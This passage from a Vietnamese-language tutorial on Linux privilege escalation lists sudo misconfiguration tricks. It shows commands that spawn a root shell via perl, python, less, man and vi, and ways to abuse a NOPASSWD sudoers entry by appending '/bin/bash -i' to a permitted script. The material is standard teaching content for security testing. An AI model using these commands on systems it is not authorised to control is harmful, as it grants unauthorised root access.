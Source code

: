 Câu lệnh:
```none
sudo perl -e 'exec "/bin/bash";'
```
### 2.1.3.  Using Python
Câu lệnh:
```none
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
### 2.1.4 Using Less Command
Câu lệnh:
```none
sudo less /etc/hosts
```

Gõ **"!bash"** và ấn Enter

![](https://images.viblo.asia/899d588a-d0da-49d6-9957-485d5900ace1.png)

### 2.1.5 Using Man Command
Câu lệnh:

```none
sudo man man
```

Gõ **"!bash"** và ấn Enter giống AWK
### 2.1.5 Using Vim Command
Câu lệnh:

```none
sudo vi
```
Khác với 2 lệnh trên, gõ **":!bash"** và ấn Enter 
### 2.2. Đặc quyền root được gán cho Shell Script
Ví dụ người dùng có thể thực thi 1 script xác định:
```none
test ALL= (root) NOPASSWD: /home/test/root.sh, /home/test/root.py, /home/test/shell
```

- Bash script

```none
echo "/bin/bash -i" >> filename.sh (nếu trong script chưa có sẵn) 
sudo ./filename.sh
```

- Python script

```none
#! /usr/bin/python 
import os 
os.system("/bin/bash")
```
